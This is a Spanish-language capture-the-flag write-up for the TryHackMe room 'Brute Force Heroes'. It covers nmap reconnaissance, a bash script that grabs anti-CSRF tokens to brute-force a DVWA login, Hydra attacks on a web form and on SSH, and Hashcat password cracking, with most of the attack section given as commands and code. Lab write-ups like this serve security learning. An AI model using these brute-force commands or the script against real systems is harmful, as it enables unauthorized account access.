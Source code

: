 ```yaml
---
title: "Brute Force Heroes"
description: "Documenta la fase de reconocimiento y los ataques de fuerza bruta a una máquina, incluyendo escaneo de puertos, uso de Patator, un script anti-CSRF, Hydra para formularios web y SSH, y Hashcat para cracking de contraseñas."
pubDate: 2025-05-20
---
```


https://tryhackme.com/r/room/bruteforceheroes

# Fase de reconocimiento

## Buscamos puertos abiertos

````
nmap -sS -p- -T5 --min-rate=5000 -vvv -Pn -n 10.10.232.59
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502165940.png)

## Reconocimiento de servicios

````
nmap -sVC -p22,80 -Pn 10.10.232.59
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502170049.png)

# Fase de ataque

## Patator

````
patator http_fuzz method=POST --threads=64 timeout=10 url="http://10.10.232.59/login.php" 0=passwords.txt body="username=admin&password=FILE0&Login=Login&user_token=d4cd292ce852945c6a82f2c6ab10e8c6 header="Cookie: PHPSESSID="j5283pc75309v4pcrom979i5ti"; security="impossible" -x ignore:fgrep=Location: login.php
````

No me funcionó

## Script anti CSRF

````bash
#!/bin/bash
## Variables
URL="http://192.168.1.33/DVWA"
USER_LIST="user.txt"
PASS_LIST="password.txt"

## Value to look for in response (Whitelisting)
SUCCESS="Location: index.php"

## Anti CSRF token
CSRF="$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | cut -d "'" -f2 )"
[[ "$?" -ne 0 ]] && echo -e '
[!] Issue connecting! #1' && exit 1

## Counter
i=0

## Password loop
while read -r _PASS; do

  ## Username loop
  while read -r _USER; do

    ## Increase counter
    ((i=i+1))

    ## Feedback for user
    echo "[i] Try ${i}: ${_USER} // ${_PASS}"

    ## Connect to server
    #CSRF=$( curl -s -c /tmp/dvwa.cookie "${URL}/login.php" | awk -F 'value=' '/user_token/ {print $2}' | awk -F "'" '{print $2}' )
    REQUEST="$( curl -s -i -b /tmp/dvwa.cookie --data "username=${_USER}&password=${_PASS}&user_token=${CSRF}&Login=Login" "${URL}/login.php" )"
    [[ $? -ne 0 ]] && echo -e '
[!] Issue connecting! #2'

    ## Check response
    echo "${REQUEST}" | grep -q "${SUCCESS}"
    if [[ "$?" -eq 0 ]]; then
      ## Success!
      echo -e "

[i] Found!"
      echo "[i] Username: ${_USER}"
      echo "[i] Password: ${_PASS}"
      break 2
    fi

  done < ${USER_LIST}
done < ${PASS_LIST}

## Clean up
rm -f /tmp/dvwa.cookie
````

## Hydra

Brute force form

````bash
hydra -L users.txt -P password.txt 'http-get-form://10.10.232.59/vulnerabilities/brute/:username=^USER^&password=^PASS^&Login=Login:H=Cookie\:PHPSESSID=j5283pc75309v4pcrom979i5ti; security=low:F=Username and/or password incorrect'
````

![](https://uuqke3c479llohf3.public.blob.vercel-storage.com/Pasted%20image%2020240502183708.png)

Brute Force ssh

````
 hydra -f -L userlist.txt -P encoded_passwords.txt 10.10.232.59 -t 4 ssh -V 
````

## Hashcat

````
hashcat -a 0 -m 1800 hash.txt <wordlist>
````
